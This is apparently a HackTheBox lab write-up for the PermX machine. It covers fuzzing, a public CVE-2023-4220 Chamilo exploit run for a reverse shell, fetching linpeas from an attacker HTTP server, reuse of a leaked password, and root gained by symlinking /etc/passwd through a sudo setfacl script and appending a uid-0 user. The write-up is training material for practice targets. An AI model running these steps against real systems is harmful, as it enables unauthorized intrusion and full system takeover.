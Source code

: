 ```yaml
---
title: PermX - HackTheBox Write-Up
pubDate: 19/09/2024
description: A write-up on the machine PermX.
author: PrintN
media_subpath: /assets/blog/permx-hackthebox/
image:
  path: 0.webp
categories: [Write-ups, HackTheBox]
tags: [Privilege Escalation]
render_with_liquid: false
---
```

## Introduction
Hello👋 Today we're going to take a look at [PermX](https://www.hackthebox.com/machines/permx){:target="_blank"} machine on HackTheBox by mtzsec. The difficulty is easy.

We'll have to start by adding the target IP Adress to our ```/etc/hosts``` use nano or vim to edit this.
```bash
[YOUR_TARGET_IP] permx.htb
```

## Enumeration
We'll start by scanning for open ports with Nmap.
![Screenshot 1](1.webp)

We get port 80 and 22, which means there is a website running. There is nothing much of interest on the homepage.
![Screenshot 2](2.webp)

So let's try to see if there are any interesting directories, we'll use Gobuster for that.
```bash
gobuster dir -u http://permx.htb -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
```
![Screenshot 3](3.webp)

Hmmm. Let's try to find some subdomains with ffuf.
```bash
ffuf -u http://permx.htb -H "Host:FUZZ.permx.htb" -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-110000.txt -fw 18
```
![Screenshot 4](4.webp)

And we got something. Let's try checking ```lms.permx.htb``` out. Remember to first add it to our ```/etc/hosts```.
![Screenshot 5](5.webp)

## Getting Access
We now know that the website uses Chamilo. Let's try do a quick search on any exploits on Chamilo. And we find **CVE-2023-4220** and a exploit script:

[https://github.com/m3m0o/chamilo-lms-unauthenticated-big-upload-rce-poc](https://github.com/m3m0o/chamilo-lms-unauthenticated-big-upload-rce-poc){:target="_blank"}
```bash
git clone https://github.com/m3m0o/chamilo-lms-unauthenticated-big-upload-rce-poc
cd chamilo-lms-unauthenticated-big-upload-rce-poc
pip install -r requirements.txt
```
Set up a listener with ```nc -lvnp 443``` and then we can run the main.py.
```bash
python3 main.py -u http://lms.permx.htb -a revshell
```
![Screenshot 6](6.webp)
![Screenshot 7](7.webp)

And we get a shell! Now we want to run [linpeas](https://github.com/peass-ng/PEASS-ng/releases){:target="_blank"} to find any vulnerbilities, so let's start a http server with python on our attacker machine.
```bash 
python -m http.server
```
In our shell we run.
```bash
wget http://10.10.14.34:8000/linpeas.sh
```
![Screenshot 8](8.webp)
![Screenshot 9](9.webp)

We get a password from the configuration.php. Now we only need the username to be able to ssh. Which we see is ```mtz``` by going to the home directory.

![Screenshot 10](10.webp)

Let's ssh into ```mtz``` with the password ```03F6lY3uXAP2bkW8```
![Screenshot 11](11.webp)

And we get our first flag!

![Screenshot 12](12.webp)

## Privilege Escalation
We start by running ```sudo -l``` and we se that we can run ```/opt/acl.sh``` as root.
![Screenshot 13](13.webp)
Let's take a look at ```/opt/acl.sh```.
```bash
#!/bin/bash

if [ "$#" -ne 3 ]; then
    /usr/bin/echo "Usage: $0 user perm file"
    exit 1
fi

user="$1"
perm="$2"
target="$3"

if [[ "$target" != /home/mtz/* || "$target" == *..* ]]; then
    /usr/bin/echo "Access denied."
    exit 1
fi

# Check if the path is a file
if [ ! -f "$target" ]; then
    /usr/bin/echo "Target must be a file."
    exit 1
fi

/usr/bin/sudo /usr/bin/setfacl -m u:"$user":"$perm" "$target"
```
This script lets the user ```mtz``` change file permissions for any user, but only for files in the ```/home/mtz``` directory. It also blocks us from using path traversal.

What we can do is make a symlink to the ```/etc/passwd``` inside the ```/home/mtz``` and then add a privileged user.

So we first have to generate a password hash.

![Screenshot 14](14.webp)
```bash
mkdir /tmp
cd /tmp
ln -s /etc/passwd passwd
sudo /opt/acl.sh mtz rwx /home/mtz/tmp/passwd
echo 'printn:$1$IeeL.gZ3$gs5hdreEStMsIs6wN.lVn0:0:0:root:/root:/bin/bash' >> /home/mtz/tmp/passwd
```
After running the commands above our user should now be added to the ```/etc/passwd```. Now we can just ```su printn``` with the password ```printn```.

And we get root. We can now get the last flag 🥳 

![Screenshot 15](15.webp)